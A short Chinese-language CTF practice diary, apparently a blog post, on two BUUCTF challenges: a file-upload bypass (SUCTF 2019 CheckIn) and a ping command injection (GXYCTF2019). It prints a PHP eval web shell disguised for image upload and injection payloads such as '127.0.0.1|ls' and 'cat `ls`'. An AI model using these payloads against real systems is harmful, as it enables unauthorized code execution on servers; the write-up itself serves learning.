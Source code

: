 ```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# 战术刷buu(摸鱼日记)

很久没做题（以前也不强），在buu上刷点题快乐一下

## [SUCTF 2019]CheckIn



打开题，一个上传界面。随便发了个图上去，能传（穿的是这个23333）![1](https://i.loli.net/2020/06/27/l3SaE2zZb4Gypn9.jpg)



穿了个php马，不行，显示错误，于是改造了个图片马，传上去，显示<?不可出现

估计这个思路就是传图片马了，那怎么做到呢

用绕过

```php
<script language="php">@eval($_POST('shell'));</script>
```

然而发现版本过高没有解析问题（白 折 腾 了）

于是憨得很的我去看wp

-------------

wp:https://xz.aliyun.com/t/6091

这题也满老了（指去年的题），这个.user.ini的骚操作看傻我了。

对图片马也有了点新认识（原来改个文件头就行了（憨憨如我每次都是用winhex之类的软件改的））

## [GXYCTF2019]Ping Ping Ping

其实思路很简单（奈何我是个菜逼）

很显然是一个命令执行，但是憨批如我居然没有做出来（先拿&&搞了半天并无卵用，看了wp发现是可以管道）

wp:https://blog.csdn.net/qq_42812036/article/details/104297163

https://www.jianshu.com/p/fd7f9fcc9333

| 表示管道，上一条命令的输出，作为下一条命令的参数

在这里?ip=127.0.0.1|ls中,ping就没用了(因为输出不被所用)，只执行ls。

看见flag，发现过滤，特别学到

```shell
cat `ls`
```

的操作，耳目一新